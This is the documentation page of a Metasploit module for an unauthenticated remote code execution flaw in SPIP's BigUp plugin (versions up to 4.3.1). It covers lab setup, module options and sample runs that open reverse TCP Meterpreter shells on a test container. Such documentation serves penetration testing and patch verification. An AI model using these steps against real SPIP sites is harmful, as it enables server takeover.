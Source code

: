 ## Vulnerable Application

This Metasploit module exploits a Remote Code Execution vulnerability in SPIP
versions up to and including 4.3.1, specifically in the BigUp plugin.
The vulnerability occurs due to improper handling of file uploads in the
`lister_fichiers_par_champs` function, which can be exploited by crafting a malicious multipart form request.
This allows an attacker to inject and execute arbitrary PHP code on the server.

### Non-Docker Setup

To replicate a vulnerable environment for testing, follow these steps:

1. Download and set up SPIP version 4.3.1.
2. Use the built-in PHP server to host the SPIP instance.

#### Commands to Set Up the Vulnerable Environment:

```bash
wget https://files.spip.net/spip/archives/spip-v4.3.1.zip
mkdir spip && mv spip-v4.3.1.zip spip
cd spip && unzip spip-v4.3.1.zip
php -S 0.0.0.0:8000
```

- **SPIP Access URL:** `http://localhost:8000`
- **SPIP Version:** 4.3.1

After starting the PHP server, SPIP will be accessible at `http://localhost:8000`.

To complete the installation:

1. Navigate to `http://localhost:8000/ecrire` to access the SPIP web installation panel.
2. Follow the on-screen instructions to complete the setup.

### Docker Setup

To replicate a vulnerable environment for testing, follow these steps:

1. Pull the vulnerable SPIP Docker image:

```bash
docker run --name casse-spip -p 8000:80 \
    -e SPIP_DB_SERVER=sqlite3 \
    -e SPIP_SITE_ADDRESS=http://localhost \
    -d ipeos/spip:4.3.1
```

2. Go to `http://localhost:8000` to access the SPIP application.

## Verification Steps

1. Set up a SPIP instance using the commands provided above.
2. Launch `msfconsole` in your Metasploit framework.
3. Use the module: `use exploit/multi/http/spip_bigup_unauth_rce`.
4. Set `RHOSTS` to the local IP address or hostname of the target.
5. Configure necessary options such as `TARGETURI`, `SSL`, and `RPORT`.
6. Execute the exploit using the `run` or `exploit` command.
7. If the target is vulnerable, the module will execute the specified payload.

## Options

- **FORM_PAGE**: This option allows you to specify a custom page on the target SPIP installation that contains a form.
By default, the module will automatically check the `login` and `contact` pages for forms,
but if you know of another page that contains a form, you can specify it here.
For example, if an article page contains a form, you can set this option like so:

```
set FORM_PAGE /spip.php?article1
```

This will instruct the module to look for the form data on `/spip.php?article1`.
If the specified page contains the vulnerable form, the module will proceed with the exploitation.
This option is particularly useful when the default pages (`login` and `contact`) do not contain the form or are not accessible.

## Scenarios

### Successful Exploitation Against Local SPIP 4.3.1

**Setup**:

- Local SPIP instance with version 4.3.1.
- Metasploit Framework.

**Steps**:

1. Start `msfconsole`.
2. Load the module via `use exploit/multi/http/spip_bigup_unauth_rce`
3. Set `RHOSTS` to the local IP (e.g., 127.0.0.1).
4. Configure other necessary options (`TARGETURI`, `SSL`, etc.).
5. Launch the exploit:
```bash
exploit
```

**Expected Results**:

With `php/meterpreter/reverse_tcp`:

```bash
msf6 exploit(multi/http/spip_bigup_unauth_rce) > run http://127.0.0.1:8000

[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] SPIP Version detected: 4.3.1
[+] SPIP version 4.3.1 is vulnerable.
[*] Bigup plugin version detected: 3.2.11
[+] The target appears to be vulnerable. Both the detected SPIP version (4.3.1) and bigup version (3.2.11) are vulnerable.
[*] Found formulaire_action: login
[*] Found formulaire_action_args: yt4d8ri/avF6LO/OwLA2O...
[*] Preparing to send exploit payload to the target...
[*] Sending stage (39927 bytes) to 172.17.0.2
[*] Meterpreter session 1 opened (192.168.1.36:4444 -> 172.17.0.2:54956) at 2024-09-08 05:53:39 +0200

meterpreter > sysinfo 
Computer    : d6c6866cac5a
OS          : Linux d6c6866cac5a 5.15.0-119-generic #129-Ubuntu SMP Fri Aug 2 19:25:20 UTC 2024 x86_64
Meterpreter : php/linux
```

With `cmd/linux/http/x64/meterpreter/reverse_tcp`:

```bash
msf6 exploit(multi/http/spip_bigup_unauth_rce) > run http://127.0.0.1:8000

[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] SPIP Version detected: 4.3.1
[+] SPIP version 4.3.1 is vulnerable.
[*] Bigup plugin version detected: 3.2.11
[+] The target appears to be vulnerable. Both the detected SPIP version (4.3.1) and bigup version (3.2.11) are vulnerable.
[*] Found formulaire_action: login
[*] Found formulaire_action_args: yt4d8ri/avF6LO/OwLA2O...
[*] Preparing to send exploit payload to the target...
[*] Sending stage (3045380 bytes) to 172.17.0.2
[*] Meterpreter session 2 opened (192.168.1.36:4444 -> 172.17.0.2:55956) at 2024-09-08 05:54:43 +0200

meterpreter > sysinfo 
Computer     : 172.17.0.2
OS           : Debian 11.10 (Linux 5.15.0-119-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```

- The module successfully exploits the vulnerability and opens a Meterpreter session on the target.

**Note**: Ensure the SPIP instance is correctly configured and running using the manual setup for the exploit to work as expected.
